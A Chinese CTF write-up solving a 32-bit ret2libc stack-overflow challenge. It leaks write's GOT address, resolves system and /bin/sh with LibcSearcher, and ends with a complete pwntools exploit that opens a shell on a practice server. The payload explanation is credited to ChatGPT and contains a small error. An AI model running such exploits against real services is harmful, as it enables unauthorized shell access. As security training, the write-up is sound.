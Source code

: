 ```yaml
---
title: 铁人三项(第五赛区)_2018_rop
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec 2018_rop  
[*] '/home/ela/Pwn/2018_rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了 NX，ShellCode 无缘，而且题目叫 ROP，肯定就是 ROP

用 IDA 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
```

然后是 `vulnerable_function()`

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+10h] [ebp-88h] BYREF

  return read(0, buf, 0x100u);
}
```

这里可以造成栈溢出，注入点找到了

仔细看了一圈，发现没有 `system()` 函数和 `/bin/sh` 字符串，看来得构造

再看了看，感觉可以从主程序的 `write()` 函数算出来基地址

想试试看 ROPgadget，结果发现没有能用的 `pop rdi; ret`，那只能用别的方法了

## 构造 Payload 1

```python
main_addr = elf.symbols["main"]
write_plt = elf.plt["write"]
write_got = elf.got["write"]

payload1 = b"A" * (0x88 + 0x4) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
io.sendline(payload1)
```

以下是对于 Payload 1 的一些解释（由 ChatGPT 生成）

1. "A" * (0x88 + 0x4): 这是填充部分，用于填充到返回地址之前的缓冲区，以覆盖返回地址。0x88 是缓冲区的长度，0x4 是因为你使用了32位的地址，所以填充4个字节

2. p32(write_plt): 这部分将 write 函数的地址（write_plt）添加到ROP链中，以便在下一次返回时跳转到 write 函数

3. p32(main_addr): 这一部分是设置返回地址，将程序重新返回到 main 函数。这是为了让程序能够重新执行，以便进行下一步的攻击

4. p32(1): 这是将 write 函数的参数 fd 设置为标准输出（文件描述符1），以便在泄漏数据时将其写入标准输出

5. p32(write_got): 这一部分是将 write 函数的GOT表项的地址（write_got）添加到ROP链中，以便在执行 write 函数时可以泄漏其真实地址

6. p32(4): 这是 write 函数的参数 n，表示要读取的字节数

## 计算 Libc 基址

接受返回数据，获得 `write()` 的实际地址，然后计算基址，接着就是计算 `system()` 和 `/bin/sh` 的实际地址

```python
write_addr = u32(io.recv(4).strip().ljust(4, b"\0"))
libc = LibcSearcher("write", write_addr)
libc_base = write_addr - libc.dump("write")

system_addr = libc_base + libc.dump("system")
bin_sh_addr = libc_base + libc.dump("str_bin_sh")
```

## 构造 Payload 2

```python
payload2 = b"A" * (0x88 + 0x4) + p32(system_addr) + p32(0) + p32(bin_sh_addr)
io.sendline(payload2)
```

## 附总 Exp

```python
from pwn import *
from LibcSearcher import *

p32 = lambda x: pack(x, 32)
u32 = lambda x: unpack(x, 32)

io = remote("node4.buuoj.cn", 27742)
elf = ELF("./2018_rop")

main_addr = elf.symbols["main"]
write_plt = elf.plt["write"]
write_got = elf.got["write"]

payload1 = b"A" * (0x88 + 0x4) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
io.sendline(payload1)

write_addr = u32(io.recv(4).strip().ljust(4, b"\0"))
libc = LibcSearcher("write", write_addr)
libc_base = write_addr - libc.dump("write")

system_addr = libc_base + libc.dump("system")
bin_sh_addr = libc_base + libc.dump("str_bin_sh")

payload2 = b"A" * (0x88 + 0x4) + p32(system_addr) + p32(0) + p32(bin_sh_addr)
io.sendline(payload2)

io.interactive()

```